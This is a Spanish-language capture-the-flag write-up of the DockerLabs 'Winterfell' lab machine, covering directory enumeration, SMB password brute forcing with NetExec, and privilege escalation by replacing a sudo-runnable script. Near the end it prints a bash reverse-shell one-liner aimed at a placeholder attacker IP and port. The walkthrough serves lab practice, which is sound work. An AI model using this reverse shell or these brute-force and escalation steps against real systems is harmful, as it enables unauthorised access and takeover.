










# Winterfell

## Índice

- [Setup](#setup)
- [Enumeration](#enumeration)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Setup

Desplegar la máquina de DockerLabs:

```bash
sudo bash auto_deploy.sh winterfell.tar
```

## Enumeration

Enumeramos y obtenemos información de servicios y versiones de puertos abiertos con nmap:



Nos metemos a la url del puerto 80:


No vemos nada en el código fuente interesante, por tanto hacemos enumeración de directorios con gobuster y obtenemos la ruta /dragon donde obtenemos una lista de passwords.


Con esa lista y una recopilación de posibles users (en la propia página principal) podemos realizar fuerza bruta para intentar loguearnos a SMB

En este paso he intentado hydra pero me daba error porque no soportaba SMBv1, por tanto, he aprendido una nueva herramienta para aplicar fuerza bruta: `nxc`

>**Nota:**
>nxc es el comando de NetExec, una herramienta de seguridad ofensiva usada en auditorías y pruebas de penetración para enumerar y evaluar servicios de red, especialmente en entornos Windows/Active Directory. Es, en la práctica, el sucesor moderno del conocido CrackMapExec (CME).

**¿Qué es NetExec (nxc)?**

NetExec es un framework de post-explotación y enumeración que permite a un auditor:
- Identificar equipos y servicios expuestos en la red
- Probar credenciales contra servicios como SMB, WinRM, LDAP, RDP, MSSQL, etc.
- Enumerar usuarios, shares, políticas y configuraciones
- Automatizar validaciones típicas en dominios AD

**Servicios que soporta:**

- **SMB** → comparticiones, usuarios, sesiones
- **LDAP** → información del dominio
- **WinRM / RDP** → acceso remoto
- **MSSQL** → bases de datos
- **SSH** → sistemas Unix/Linux

Si listamos los recursos disponibles, vemos lo siguiente:


Ahora simplemente seleccionamos el recurso que nos interesa y nos descargamos el archivo



La contraseña que nos da está cifrada en base64, la decodificamos y obtenemos la contraseña para acceder a la shell de `jon`.

## Gaining Access

Con las credenciales obtenidas, accedemos a la máquina como usuario `jon` y procedemos con la escalada de privilegios.

## Privilege Escalation

**jon → aria**

Vemos que tenemos permisos sudo para ejecutar el script como usuario `aria`:


Aquí me he quedado un rato atascado. No podía cambiar permisos ni ejecutar comandos en el script, por los permisos que tiene. 

He visto que siendo jon, puedo borrar y crear archivos en el directorio, por tanto, he borrado el archivo .mensaje.py y lo he vuelto a crear pero cambiando su contenido para que me ejecute una bash como aria.

Con `aria`, obtenemos permisos sudo para listar y ver contenido del directorio de `daenerys`:



con estas credenciales, pero ojo, que tiene una trampa... ( sencilla) podemos convertirnos en daenerys y ya solo nos quedaría convertirnos a root.

**daenerys → root**

El usuario `daenerys` puede ejecutar un script shell con cualquier usuario. Modificamos la dirección IP y puerto para recibir una reverse shell en nuestra máquina y obtenemos acceso root:



```bash
cat /home/daenerys/.secret/.shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<TU IP LOCAL>/<PUERTO> 0>&1
```

## Conclusion

- Me ha gustado la máquina porque no había tocado casi SMB y me ha servido para practicarlo

- Primera vez que uso nxc en lugar de hydra. He aprendido lo que es y su sintaxis 

- `Para elevar privilegios es la primera vez que me ha tocado tener que borrar un archivo y volver a crearlo. No sabía que se podía hacer eso.`
